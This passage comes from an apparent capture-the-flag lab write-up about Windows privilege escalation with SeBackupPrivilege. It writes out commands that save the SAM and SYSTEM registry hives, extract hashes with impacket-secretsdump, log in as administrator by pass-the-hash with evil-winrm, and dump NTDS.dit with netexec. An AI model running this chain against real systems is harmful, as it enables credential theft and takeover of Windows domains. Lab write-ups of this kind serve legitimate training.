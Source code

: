 -   **Key Information About this privielge**:
    -   Allows a process to read any file, regardless of the file's permissions.
    -   Used primarily for backup applications that need access to all files.
    -   Bypasses standard file read permissions.
    -   Does not enable writing or deleting files, only reading.
    -   Typically assigned to backup software or administrative tasks.

-   **Security Considerations**:
    -   High potential for abuse if granted to unauthorized applications or users.
    -   Should be closely monitored and restricted to trusted applications and personnel.


## 4. Ownership: {#4-dot-ownership}


### Dumping Registry Hives &amp; extracting creds using secretsdump: {#dumping-registry-hives-and-extracting-creds-using-secretsdump}

-   As mentioned previously we can use the `reg save` command to programatically copy the registry the hives and bypass ACL's. The only reason we can do this is due to us having the `SeBackupPrivilege`

-   **I Dump the Hives**:
    -   `reg save HKLM\SYSTEM SYSTEM.SAV`
        -   {{< figure src="/ox-hugo/2024-10-31-181418_.png" >}}
    -   `reg save HKLM\SAM SAM.SAV`
        -   {{< figure src="/ox-hugo/2024-10-31-181430_.png" >}}

-   **I transfer the hives back to my attack machine**:
    -   {{< figure src="/ox-hugo/2024-10-31-181557_.png" >}}

-   **Extract the secrets using** `impacket-secretsdump`:
    -   `impacket-secretsdump -sam SAM.SAV -system SYSTEM.SAV LOCAL`
    -   {{< figure src="/ox-hugo/2024-10-31-181844_.png" >}}

-   **Login as the administrator using their hash**:
    -   `evil-winrm -i $box -u $user -H $hash`

-   **Get our root flag**:
    -   {{< figure src="/ox-hugo/2024-11-01-123531_.png" >}}


## 5. Persistence: {#5-dot-persistence}


### Dumping NTDS.dit: {#dumping-ntds-dot-dit}

-   **I dump the ntds.dit using** `netexec`:
    -   `netexec smb $box -u $user -H $hash -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-10-31-182224_.png" >}}
    -   +Note+:
        -   Need to sort out these errors, this is a fresh VM so need to sort these python errors out.


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}
